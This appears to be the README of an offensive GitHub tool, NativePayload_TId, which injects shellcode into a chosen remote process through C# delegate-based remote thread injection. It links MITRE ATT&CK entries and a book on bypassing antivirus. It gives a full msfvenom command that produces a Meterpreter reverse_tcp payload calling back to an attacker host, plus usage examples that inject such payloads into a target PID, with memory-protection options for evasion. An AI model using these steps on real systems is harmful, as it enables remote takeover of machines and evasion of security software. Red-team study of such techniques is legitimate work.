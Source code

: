 # NativePayload_TId
Remote Thread Injection by C# Delegate

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

Article [2]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)

------------------------------------------------

    Code1 step1: NativePayload_TId2.exe [TPID] [PAYLOAD]

    Code2 step2: NativePayload_TId3.exe [TPID] [VAx-addr or VirtualAllocEx Address from step1]


    EXAMPLE: NativePayload_TId2.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TId3.exe 2452 1bfc0190000
    
    
step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part3)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part3.pdf

------------------------------------------------

    NativePayload_TImd.exe [steps 1 or 2] [delay 2000]  [MemoryProtection/mode 0 or 1] [TPID 4716]  [payload fc,48,..]
    
    example: NativePayload_TImd.exe  1  2000  0  4716  fc,48,56,...
    
    example: NativePayload_TImd.exe  2  6721  1  4716  fc,48,56,...
    
        step = 1  you will have 4 steps (default)
    
        step = 2  you will have 28 steps
    
        MemoryProtection = 0  API::VirtualAllocEx set to MemoryProtection.ExecuteReadWrite
    
        MemoryProtection = 1  API::VirtualAllocEx set to MemoryProtection.Execute
    

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part3)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part3.pdf

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_TId"/></a></p>
